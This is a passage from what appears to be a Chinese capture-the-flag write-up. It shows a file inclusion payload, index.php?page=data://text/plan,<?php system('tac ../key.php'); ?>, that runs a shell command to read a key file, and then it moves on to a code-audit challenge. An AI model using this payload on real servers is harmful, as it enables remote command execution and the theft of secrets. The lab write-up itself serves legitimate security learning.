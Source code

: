 利用data写一句话`index.php?page=data://text/plan,<?php system('tac ../key.php'); ?>`拿到key
![upload successful](./images/pasted-902.png)

# 34234 基础题目四：代码审计

进入查看代码
![upload successful](./images/pasted-903.png)
